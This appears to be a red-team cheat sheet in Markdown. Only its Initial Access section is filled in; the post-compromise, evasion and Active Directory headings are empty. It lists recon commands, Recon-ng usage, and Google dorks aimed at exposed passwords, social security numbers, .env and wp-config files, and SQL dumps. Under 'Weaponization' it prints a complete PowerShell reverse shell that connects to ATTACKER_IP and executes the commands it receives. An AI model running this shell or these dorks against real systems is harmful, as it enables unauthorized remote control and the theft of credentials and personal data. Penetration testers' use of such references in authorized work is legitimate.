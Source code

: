 # Table Of Contents

1. [Initial Access](#initialaccess)
2. [Post Compromise](#postcompromise)
3. [Host Evasions](#hostevasions)
4. [Network Security Evasions](#networksecurityevasions)
5. [Compromising Active Directories](#compromisingad)

# I. Initial Access <a name="initialaccess"></a>

## Recon

### Built-in Tools

```
whois DOMAIN_NAME
nslookup DOMAIN_NAME
dig DOMAIN_NAME @DNS_SERVER
host DOMAIN_NAME
traceroute DOMAIN_NAME
```
### Google Dorking

Basic Search Operators
```
site:example.com
inurl:admin
intitle:"login page"
filetype:pdf
intext:"username"
cache:example.com
related:example.com
allinurl:login admin
allintitle:admin login
```

Common Google Dorks for Red Teamers
```
inurl:admin | inurl:login | inurl:dashboard
inurl:config filetype:xml OR filetype:ini OR filetype:txt
intext:password filetype:xls OR filetype:txt OR filetype:doc
filetype:sql intext:"INSERT INTO" OR intext:"sql dump"
intext:ssn OR intext:"social security number" filetype:xls
inurl:view/view.shtml
site:example.com intext:"vulnerability"
filetype:bak OR filetype:backup OR filetype:old OR filetype:zip
intitle:index.of "parent directory" site:example.com
inurl:ftp://
```

Advanced Dorks for More Targeted Recon
```
inurl:.git OR inurl:.git/config
intext:"@example.com" filetype:xls OR filetype:doc
inurl:.env OR inurl:wp-config.php
inurl:"ViewerFrame?Mode=" OR inurl:"axis-cgi"
```

Combining Dorks for Better Results
```
site:example.com filetype:log
intext:"default password" filetype:xls OR filetype:doc OR filetype:pdf
inurl:phpmyadmin OR inurl:mysql
```

### Recon-ng

```
workspaces create WORKSPACE_NAME
recon-ng -w WORKSPACE_NAME
db schema
db insert domains
marketplace search domains-
marketplace info MODULE
marketplace install MODULE
modules search
modules load MODULE
options list
options set OPTION VALUE
keys list
keys add KEY_NAME KEY_VALUE
keys remove KEY_NAME
run
```

## Weaponization

Powershell Reverse Shell
```
$client = New-Object System.Net.Sockets.TCPClient("ATTACKER_IP",PORT);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
$sendback = (iex $data 2>&1 | Out-String );
$sendback2  = $sendback + "PS " + (pwd).Path + "> ";
$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
$stream.Write($sendbyte,0,$sendbyte.Length);
$stream.Flush()};
$client.Close()
```


# II. Post Compromise <a name="postcompromise"></a>

# III. Host Evasions <a name="hostevasions"></a>

# IV. Network Security Evasions <a name="networksecurityevasions"></a>

# V. Compromising Active Directories <a name="compromisingad"></a>
